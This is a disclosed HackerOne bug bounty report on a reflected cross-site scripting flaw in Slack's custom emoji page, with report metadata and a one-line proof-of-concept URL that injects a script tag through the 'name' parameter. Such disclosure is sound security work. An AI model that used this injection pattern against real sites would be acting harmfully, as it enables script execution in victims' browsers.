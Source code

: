 # The Custom Emoji Page has a Reflected XSS

## Report Details
- **Report ID**: 258198
- **URL**: https://hackerone.com/reports/258198
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-08-09T09:03:33.645Z
- **Disclosed**: 2017-09-24T06:40:12.327Z

## Reporter
- **Username**: co3k
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
The Custom Emoji Page has a Reflected XSS in building flash message.

The following is the PoC.
https://{team}.slack.com/customize/emoji?added=1&name=vuln"><script>alert(0);<%2Fscript>

## Attachments
No attachments
